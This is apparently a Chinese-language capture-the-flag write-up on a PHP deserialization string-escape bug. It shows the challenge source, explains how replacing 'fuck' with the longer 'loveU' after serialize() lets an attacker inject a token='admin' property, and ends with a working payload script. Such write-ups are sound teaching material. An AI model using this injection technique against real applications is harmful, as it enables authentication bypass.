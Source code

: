 ```php
$m = $_GET['m'];
$t = $_GET['t'];

if(isset($f) && isset($m) && isset($t)){
    $msg = new message($f,$m,$t);
    $umsg = str_replace('fuck', 'loveU', serialize($msg));
    setcookie('msg',base64_encode($umsg));
    echo 'Your message has been sent';
}

highlight_file(__FILE__);
```

首先看到了这一行代码，就知道了是字符串逃逸

```php
$umsg = str_replace('fuck', 'loveU', serialize($msg));
```

关于字符串逃逸，可以看看[y4的博客](https://blog.csdn.net/solitudi/article/details/113588692?spm=1001.2014.3001.5502)

解题思路：

访问message.php,我们看到，需要token为admin才能输出flag

```php
if(isset($_COOKIE['msg'])){
    $msg = unserialize(base64_decode($_COOKIE['msg']));
    if($msg->token=='admin'){
        echo $flag;
    }
}
```

payload:

```php
<?php
class message{
   public $from;
   public $msg;
   public $to;
   public $token='admin';
   public function __construct($f,$m,$t){
       $this->from = $f;
       $this->msg = $m;
       $this->to = $t;
   }
}
$f = 1;
$m = 1;
$t = 'fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}';
$msg = new message($f,$m,$t);
$umsg = str_replace('fuck', 'loveU', serialize($msg));
echo $umsg ;
echo "\n";
echo base64_encode($umsg);

```
